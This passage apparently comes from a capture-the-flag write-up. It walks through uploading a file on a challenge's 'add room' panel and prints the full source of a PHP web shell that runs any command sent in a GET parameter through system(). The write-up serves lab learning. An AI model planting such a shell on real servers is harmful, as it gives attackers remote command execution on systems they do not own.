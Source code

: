 ![](day_3-add-room-panel.png)

Now we upload our webshell. We can use the webshell provided in the challenge.

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

We save this as `webshell.php` and upload it. Then we go to the `webshell.php` file to see if it works.
